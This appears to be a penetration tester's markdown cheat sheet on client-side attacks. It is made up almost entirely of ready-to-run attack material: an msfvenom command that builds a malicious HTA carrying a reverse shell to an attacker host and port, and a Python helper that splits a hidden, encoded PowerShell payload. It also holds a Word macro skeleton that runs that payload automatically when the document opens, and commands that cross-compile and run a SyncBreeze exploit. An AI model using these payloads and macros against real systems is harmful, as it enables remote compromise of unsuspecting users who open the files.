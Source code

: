 ## Client Side attack
MSFVENOM hta-psh, vba, and vba-psh formats are designed for use in client-side attacks by creating either
a malicious HTML Application or an Office macro for use in a Word or Excel document, respectively.

### Client fingerprint
```
#Valve fingerprint
wget https://github.com/Valve/fingerprintjs2/archive/master.zip
```
#### Seach your browser with user agent
https://developers.whatismybrowser.com/useragents/parse/

#### hta attack 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

#### Microsoft Word Macro

#### Python script to let the code lenght fit macro requirement
```
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```		

#### Macro skeleton
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String

	'This part is a comment, following line is powershell reverse shell which size is fit by above script 
	Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
	Str += "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
	...
	Str += Str + "QA"

	CreateObject("Wscript.Shell").Run Str
End Sub

```
### Cross-Compiling Exploit Code
```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

wine syncbreeze_exploit.exe #(To execute windows exe in Linux)
```
